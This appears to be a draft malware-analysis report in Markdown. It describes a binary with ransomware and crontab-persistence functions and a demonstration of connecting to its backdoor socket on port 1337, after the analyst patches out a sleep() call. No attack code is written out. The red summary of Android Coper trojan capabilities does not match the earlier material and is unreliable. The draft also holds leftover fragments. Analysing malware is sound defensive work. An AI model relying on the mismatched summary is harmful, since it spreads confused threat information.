- 
- The next function is `ransomware()`.
	- as
- 
- The last function is the `install_program_to_crontab()`
	- asas

## Demonstration
- In the following video we demonstrate how it possible to connect to the user machine once the binary is running, in order to do this some changes and scripts were necessary:
	- A patch was applied in Binary Ninja, to the original binary to swap the `sleep()` function call with some NOP operations, this was necessary since the value that the program would sleep could take some time.
	- On the python script we have the function `encrypt()` this function just encrypts the commands the same way the program expects them, in the `main()` function, we simply connect to the socket available and continuously send commands. 

- After preparing the binary we start the video  by demonstrating that once the binary is executed a socket is open on port 1337 using the command `netstat -lntu`.
- Once we see that the port is available we use the previous Python script to establish a connection and send some commands to the user machine namely:
	- `mkdir` which will allows us to see in the Visual Studio sidebar that the directory is created with the name "a".
	- `rmdir a` to delete the directory just created.
- Although this example doesn't cause any harm to the user, it allows us to see that with the connection open an attacker could do a lot of actions on the user's machine.
- 
- 

## Analysis Summary
<font color="#ff0000">- **Key Host and Network Indicators of Compromise (IOCs):**</font>
<font color="#ff0000">	- </font>
<font color="#ff0000">- **Key Functionality:**</font>
<font color="#ff0000">	- **Device Control & Persistence:** Locks the screen, gains admin privileges, disables security settings, controls UI interactions, and hides its icon to avoid detection.</font>
<font color="#ff0000">	- **Data Theft:** Reads and intercepts SMS messages (including OTPs), accesses contacts and call logs, steals clipboard data, captures keystrokes (keylogging), and extracts cookies for session hijacking.    </font>
<font color="#ff0000">	- **Remote Command Execution:** Connects to a command-and-control (C2) server, registers the device as a bot, receives and executes remote commands, and maintains persistent communication.</font>
<font color="#ff0000">	- **Security Evasion:** Disables Google Play Protect, bypasses SSL certificate checks, manipulates system settings, and prevents uninstallation or factory resets.</font>
<font color="#ff0000">    - **Financial & Fraud Capabilities:** Sends phishing messages, makes unauthorized calls, disables notifications, and locks the device remotely—potentially for extortion or fraud.</font>
<font color="#ff0000">- **Malware Type and Family**</font>
<font color="#ff0000">	- According to [VirusTotal](https://www.virustotal.com/gui/file/f35635ab05a8f0ff2e45a561e9aef6cb766fe62cd3216dc4ab5ca2425c58e1d7/community) this malware belongs to the Coper malware family.</font>
<font color="#ff0000">- **Indicators of Compromise**</font>
<font color="#ff0000">	- The first indicator of compromise is the [file hash](#static-analysis). Another indicator are the requests to the domains shown in the picture in [this section](#static-analysis), in the **Extenal Dependencies** subsection.</font>
## References
- https://www.youtube.com/watch?v=0U19sVSLhQE
- 

## Notas
- Verificar versão compilador
- Colocar caminho para o scripts python 
- Colocar video do acesso ao socket que a aplicação cria
- Tratar da função download_http_curl